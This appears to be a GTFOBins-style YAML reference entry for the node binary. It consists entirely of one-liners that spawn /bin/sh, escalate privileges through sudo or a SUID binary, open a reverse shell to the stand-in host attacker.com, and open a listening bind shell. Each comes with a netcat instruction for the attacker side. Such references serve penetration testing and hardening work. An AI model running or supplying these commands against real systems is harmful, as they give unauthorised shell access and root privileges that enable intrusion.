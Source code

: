 ```yaml
---
functions:
  exec-interactive:
    - code: |
        node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
  sudo-enabled:
    - code: |
        sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
  suid-enabled:
    - code: |
        ./node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]});'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        node -e 'sh = require("child_process").spawn("/bin/sh");
        net.connect(process.env.RPORT, process.env.RHOST, function () {
          this.pipe(sh.stdin);
          sh.stdout.pipe(this);
          sh.stderr.pipe(this);
        });'
  bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        export LPORT=12345
        node -e 'sh = require("child_process").spawn("/bin/sh");
        require("net").createServer(function (client) {
          client.pipe(sh.stdin);
          sh.stdout.pipe(client);
          sh.stderr.pipe(client);
        }).listen(process.env.LPORT);'
---
```


